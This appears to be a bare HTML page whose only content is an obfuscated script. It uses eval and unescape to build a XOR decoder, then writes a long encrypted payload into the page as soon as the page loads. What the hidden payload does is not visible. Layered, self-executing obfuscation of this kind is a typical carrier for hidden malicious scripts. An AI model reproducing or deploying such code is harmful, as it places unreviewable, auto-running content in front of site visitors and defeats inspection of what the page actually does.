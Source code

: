 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%6b%37%30%31%35%36%62%37%31%37%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%34%37%37%32%31%31%31%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%39%35%37%34%30%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%35%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%6b%37%30%31%35%36%62%37%31%37%28%27') + '%45%6c%7b%73%70%4a%17%09%48%68%3f%21%6e%6d%43%25%78%6f%70%74%6c%2e%20%7f%7d%7e%75%6b%40%26%73%6f%72%6a%67%76%38%21%35%21%67%78%78%75%49%7c%6c%74%7c%35%62%71%6a%6d%71%3e%24%61%6f%75%70%6f%70%44%27%47%53%4e%47%24%4e%43%4a%5d%56%4b%21%59%53%5b%5a%58%24%58%4b%55%43%5d%22%63%7e%21%4b%6b%73%67%7e%44%32%64%3d%44%16%0f%45%6c%3a%24%6f%60%47%21%70%6b%7e%75%6a%23%24%7a%78%7f%78%6f%44%2e%77%61%73%6c%6a%72%3d%24%34%2c%63%7c%70%71%47%7d%6a%79%78%30%67%70%67%69%75%36%20%6f%6e%73%7d%6b%75%41%26%4a%4c%58%5d%52%22%36%25%4d%75%27%5f%75%73%72%23%5d%79%74%21%57%6e%79%68%67%76%61%68%35%2c%5b%73%7e%77%21%75%7e%72%24%60%6f%6e%67%7d%69%70%73%35%24%64%69%78%67%71%75%2c%63%74%6d%25%73%6b%7a%74%75%7a%7d%68%6e%6b%76%6a%79%7a%32%27%48%6f%6f%77%72%7a%6c%22%69%66%77%68%7a%27%24%50%79%68%70%7c%6d%73%44%21%4f%30%48%5f%5d%52%23%7b%71%22%77%66%21%7f%64%72%24%6f%62%60%2f%20%46%30%6d%3c%42%10%0e%24%2c%17%09%2c%20%46%6d%6e%7f%24%7a%78%7f%78%6f%44%2e%7c%6d%79%79%36%67%73%6f%6d%7a%3a%23%61%6f%74%7d%6a%73%41%25%42%58%73%77%60%70%63%74%68%6c%62%74%27%72%6d%2c%5c%68%7c%20%77%62%6d%6a%78%27%66%7b%70%63%77%2c%37%35%47%43%21%40%64%24%6c%7e%6f%6d%4b%22%6a%7d%79%71%79%3d%35%35%74%7f%74%7b%36%61%71%75%30%68%68%78%6b%61%7c%32%7e%6f%71%7e%6a%7c%78%3d%76%46%7d%7e%5d%50%3f%57%3c%4a%6d%73%76%4c%66%74%3b%4a%32%42%61%76%6f%57%46%53%54%50%45%7e%78%53%3d%6d%23%43%50%74%68%72%24%75%6b%7f%64%20%7a%7e%72%76%40%36%67%42%48%31%6f%67%7e%44%16%0f%21%24%10%0e%24%2c%44%6f%67%7e%22%6c%71%62%79%7a%43%26%78%71%60%60%6f%70%23%25%7c%78%7c%70%6b%4b%22%74%6f%72%6b%6a%73%3b%24%37%24%67%73%7c%72%49%22%44%45%34%6d%6f%79%42%13%06%17%09%48%7c%61%63%71%6e%24%6a%70%67%71%7d%44%2e%6d%6d%77%79%6e%76%25%42%13%06%20%23%48%7c%70%47%12%0b%24%27%24%24%48%7c%6f%4a%44%72%21%6e%6d%43%25%72%6b%75%5c%72%79%6f%74%7c%27%47%40%36%74%42%48%31%7f%60%46%15%0b%25%21%40%36%78%76%4a%17%09%2c%20%46%7c%68%73%6f%77%78%42%1b%0a%23%2c%7e%61%73%25%4c%4c%48%49%51%43%4c%62%58%4b%5f%5d%25%46%24%62%63%41%1b%0a%7f%7d%6c%61%7a%25%46%24%71%6b%7d%2c%4c%60%70%6f%2a%2a%40%21%78%76%68%67%77%36%7e%63%7c%4a%70%7a%73%79%2f%34%2f%49%20%7f%7d%6c%61%7a%33%7c%6b%7b%53%6f%7a%7f%7f%63%7d%2a%31%2e%44%24%7b%75%68%6f%7b%35%71%6f%7e%5c%6a%6c%75%71%68%79%24%30%28%49%17%08%6f%7a%77%69%7b%6f%75%7a%20%6b%70%7c%72%48%6a%7d%2c%7b%6c%6b%53%72%77%27%17%08%84%12%0b%24%27%24%24%72%63%71%2c%78%75%75%4d%7d%78%77%24%43%2c%76%6c%75%20%5a%56%51%49%78%7b%74%56%63%73%7c%63%7d%7e%29%2e%44%13%0d%24%24%2c%20%7b%7b%74%4a%7d%79%71%32%76%74%6b%7a%28%23%2e%49%4d%5d%27%35%24%7b%6c%6b%53%72%77%38%20%6c%62%71%7c%6b%27%2f%41%2c%31%32%2c%6e%61%75%78%6e%24%69%75%76%2c%7d%78%7a%6d%6a%73%74%77%75%78%79%24%7e%6f%70%73%6f%7f%7d%12%0b%24%27%24%24%74%77%77%44%7c%7e%71%33%7c%6b%71%68%2c%2c%76%7c%78%74%22%2a%40%16%0e%27%24%24%2c%72%6c%70%7f%70%77%25%79%73%73%4c%78%70%70%35%7e%6f%7f%71%74%77%79%68%58%6b%74%7c%46%1b%0a%85%16%0f%16%0e%69%7b%72%61%7c%68%7d%76%22%68%6a%7d%49%78%76%76%63%76%6e%77%4d%73%6d%6a%29%6b%2c%13%0e%89%17%09%2c%20%22%21%6e%6f%24%2f%6b%2f%2c%85%14%06%20%22%21%25%21%24%27%24%6f%62%20%2b%30%30%22%46%42%21%6b%31%70%6b%7a%69%7f%64%20%2c%2f%25%6e%32%68%72%68%71%59%68%70%68%2a%23%35%31%26%2c%2f%24%89%17%09%2c%20%22%21%25%21%24%27%24%24%2c%20%7a%64%6b%76%6e%2d%6e%32%68%72%68%71%59%68%70%68%2a%23%35%31%26%2c%2f%24%89%17%09%2c%20%22%21%25%21%24%27%24%24%2c%20%23%2c%20%22%6e%25%46%24%68%32%79%73%62%7e%70%72%69%77%6c%29%34%33%24%6b%3a%74%6c%7a%69%7e%69%25%36%24%35%2f%41%2c%17%09%2c%20%22%21%25%21%24%27%24%24%2c%20%84%2c%20%22%16%0f%21%24%27%24%24%2c%20%23%2c%20%22%21%77%6e%78%78%76%72%2c%68%6c%74%32%61%29%6a%2a%41%10%0e%24%2c%20%23%2c%20%22%21%82%16%0e%27%24%24%2c%20%23%2c%20%70%6e%79%7e%76%71%24%6b%1b%0a%23%2c%20%22%86%12%0b%24%27%24%24%7e%6f%7f%73%72%74%21%27%23%13%0d%83%13%06%17%09%62%7f%74%6c%79%6a%75%71%24%6c%63%78%31%6f%28%6a%6e%7d%79%2f%27%81%13%06%20%23%2c%20%7c%62%77%21%6c%68%7c%24%4b%20%6b%63%78%7a%37%79%70%59%7b%76%6f%7a%69%2b%27%45%33%30%6b%70%76%6a%6b%24%61%71%75%72%6f%70%7c%6e%70%72%10%0e%24%2c%20%23%72%63%70%21%78%7d%76%27%43%24%25%29%46%1b%0a%22%21%25%21%6a%76%76%24%24%7e%60%7e%20%69%21%42%21%34%42%24%6f%2c%44%23%64%6f%7a%37%71%6e%72%6e%78%6c%49%20%68%2c%35%45%21%37%2a%13%0d%24%24%2c%20%23%2c%20%22%7c%79%73%24%32%43%24%51%7c%71%67%76%6b%37%6b%73%75%70%49%6c%6f%72%4e%7d%6c%6d%29%75%62%76%7a%6b%4f%7a%7c%2b%64%6f%7a%37%78%7e%66%7a%78%76%24%6b%37%2c%32%29%35%25%32%3a%2c%2f%41%1b%0a%23%2c%20%22%73%6a%7d%7b%75%72%24%71%7c%71%49%17%08%86%12%0b%13%0d%6a%7b%7a%6d%7f%67%71%74%21%6c%6e%78%51%6b%7d%50%71%76%63%76%7f%29%2e%21%81%10%0e%24%2c%6d%72%7a%7d%73%75%6a%37%70%76%6d%2c%2e%5d%5f%4f%52%5e%23%2e%44%13%0d%13%0e%2c%20%5e%70%72%69%77%6c%37%74%75%75%78%7d%7c%78%7c%6f%34%6a%73%55%6f%7a%78%43%62%7f%75%61%7c%69%70%73%29%70%6c%79%78%27%85%14%06%20%22%21%25%73%6b%7b%7b%76%7a%20%2b%78%6b%7f%7d%33%6a%72%6b%6b%7c%5d%6e%2b%70%68%69%7c%33%7d%75%5a%78%76%67%76%6a%24%2b%29%21%26%46%24%30%37%2f%1b%0a%23%2c%87%15%0b%12%0b%24%27%78%75%79%6f%75%71%20%45%21%4f%5c%55%51%32%74%6f%72%7e%63%28%6a%7d%79%71%4d%68%78%2c%2e%68%7f%70%70%7f%3b%34%30%67%77%6f%32%74%72%73%78%6c%61%7d%66%37%69%76%73%35%6f%70%68%3d%7e%31%30%79%70%71%68%72%79%2e%2b%28%49%17%08%21%25%7f%67%75%24%78%7d%7c%60%78%20%45%21%35%44%13%0d%24%24%72%63%71%2c%63%76%75%51%6a%72%72%24%43%2c%29%2a%49%17%08%21%25%7f%67%75%24%72%63%79%5f%7d%75%6d%77%78%21%43%27%2d%2d%49%17%09%2c%20%6c%70%77%29%7a%64%76%24%70%71%76%63%76%22%6a%73%21%78%76%71%6b%7a%7d%35%67%7d%7f%7e%6a%73%79%2c%24%81%1b%0a%23%2c%20%22%21%25%7f%67%75%24%69%73%72%71%63%76%6f%7a%48%70%68%68%24%43%2c%69%6c%70%4d%7d%73%77%6e%72%6a%7f%49%7d%6c%6c%24%7c%73%74%6a%77%79%31%6f%79%71%7f%6c%7e%7d%67%7d%74%74%6b%71%63%32%70%71%76%63%76%7f%64%35%66%32%6a%7b%76%7e%6f%75%61%7b%29%44%12%0b%24%27%24%24%2c%20%7d%6f%72%22%6c%77%6e%67%7b%6b%68%40%63%7f%63%20%45%21%73%6e%7d%27%48%67%70%6f%2b%40%63%7e%6e%33%71%67%75%79%6b%24%7c%72%79%6f%74%7c%33%6a%79%7a%7b%6b%7e%7d%66%70%71%77%6e%73%66%32%7b%75%71%63%76%7e%69%30%65%37%68%73%6b%64%78%6b%60%36%6f%6f%7c%6d%2a%2e%44%13%0d%24%24%2c%20%23%2c%6b%6c%29%68%73%6b%64%78%6b%60%4c%60%70%6f%22%47%25%7d%75%6b%67%7f%2c%2e%2d%2c%4d%4a%4e%48%54%4b%4b%65%50%47%5d%5f%3a%6b%74%6d%6a%79%55%69%2c%69%73%72%71%63%76%6f%7a%48%70%68%68%2f%24%4b%47%23%3b%33%29%21%80%16%0e%27%24%24%2c%20%23%2c%20%22%21%79%70%78%64%70%31%39%17%09%2c%20%22%21%25%21%24%27%24%24%72%63%71%2c%63%75%70%7a%77%78%27%43%24%70%71%76%63%76%7f%37%6e%7c%79%78%6b%76%71%65%7f%7d%75%6d%77%62%37%78%76%71%6b%7a%7d%66%3c%67%34%62%72%70%7b%71%78%41%1b%0a%23%2c%20%22%21%25%21%24%27%24%7a%6f%72%23%73%72%76%21%42%21%2d%6f%78%78%7c%7d%39%3d%31%7a%7e%72%76%32%6a%75%73%7b%7f%75%67%7c%79%30%44%6a%79%7a%7b%6b%7e%47%2a%39%20%7e%70%70%6e%72%27%31%24%2e%2e%6e%73%72%70%6e%73%6c%7f%40%26%24%39%20%6e%73%72%70%6e%73%6c%7f%4a%75%68%63%20%36%2c%29%2c%75%6e%76%6f%7b%43%2d%2c%35%23%6f%77%73%7e%73%7d%41%10%0e%24%2c%20%23%2c%20%22%21%25%21%13%0d%24%24%2c%20%23%2c%20%22%21%25%7f%67%75%24%71%77%6d%23%4b%20%7e%70%70%6e%72%7a%32%6f%71%7d%7c%63%72%7f%64%79%70%71%68%72%63%3a%6c%60%70%63%34%74%7e%6c%24%46%24%2d%57%4f%5e%25%20%38%21%2c%57%55%2e%13%0e%2c%20%23%2c%20%22%21%25%21%24%64%70%70%58%6b%75%79%20%45%21%66%75%70%53%6f%72%79%20%36%2c%29%63%60%64%60%65%66%65%65%6d%61%62%6d%61%63%60%64%60%65%66%65%65%6d%61%62%6d%61%63%60%64%60%65%66%65%65%25%20%36%2c%7c%73%7d%66%75%24%32%24%2d%6d%61%62%6d%61%63%60%64%60%65%66%65%65%6d%61%62%6d%61%63%60%64%60%65%66%65%65%6d%61%62%6d%61%63%60%64%45%66%75%42%2d%1b%0a%23%2c%20%22%21%25%21%24%27%24%24%2c%20%23%2c%20%22%21%25%21%24%27%24%24%2c%20%23%2c%35%22%28%48%7e%76%75%6b%72%61%7b%39%2c%2c%2b%21%30%21%69%78%76%76%63%76%6e%77%4d%73%6d%6a%21%31%27%2d%40%6e%72%45%25%20%37%21%2c%54%5f%4a%3e%24%25%20%36%2c%75%79%6c%25%34%24%2e%40%66%7e%46%2a%1b%0a%22%21%25%21%24%27%24%24%2c%20%23%2c%20%22%21%25%21%24%27%24%24%2c%20%23%2c%20%22%21%30%21%2d%4a%76%6b%6f%7c%6c%60%20%6e%62%79%6e%3e%27%2d%24%39%20%6e%7e%6f%61%7d%6a%6d%48%64%78%6b%2c%35%23%25%20%86%21%2c%21%31%27%2d%58%7d%7c%60%78%20%7e%73%7a%7c%78%73%6f%72%63%3a%23%25%20%37%21%79%70%71%68%72%79%3a%6b%7e%71%7f%6d%73%78%64%78%76%71%6b%7a%67%35%70%71%77%6e%73%7c%61%37%63%32%70%72%7c%71%7c%76%6a%73%6e%79%27%31%24%25%44%61%7e%46%2b%16%0f%21%24%27%24%24%2c%20%23%2c%20%22%21%25%21%24%27%24%24%2c%20%23%2c%20%22%21%25%21%24%32%24%2d%58%4b%55%59%3a%22%28%25%34%24%78%76%70%3a%74%68%7a%75%2a%7e%77%75%2f%27%31%24%25%44%61%7e%46%2b%44%12%0b%24%27%24%24%2c%20%84%1b%0a%22%21%82%16%0e%27%24%24%60%71%6e%73%77%6d%77%79%37%6d%68%78%4b%78%6f%74%63%76%7e%43%7e%4a%68%2f%26%72%63%79%5f%7d%75%6d%77%78%23%2f%31%6f%72%7a%6f%71%44%5c%55%55%25%46%24%64%70%70%58%6b%75%79%45%15%0b%25%21%69%76%72%79%7d%74%6c%3a%74%73%68%2d%28%4b%51%48%2d%27%45%14%06%87%15%0b%6c%6e%78%51%6b%7d%50%71%76%63%76%7f%29%2e%44%13%0d%79%6b%70%4b%75%70%6f%70%7f%66%75%2c%6e%6b%78%5a%6f%7a%50%71%77%6e%73%7c%30%27%38%3b%3c%30%33%27%45%15%0b%41%30%79%6a%76%6f%7c%7c%4524772111%34%31%32%31%31%39%35' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>

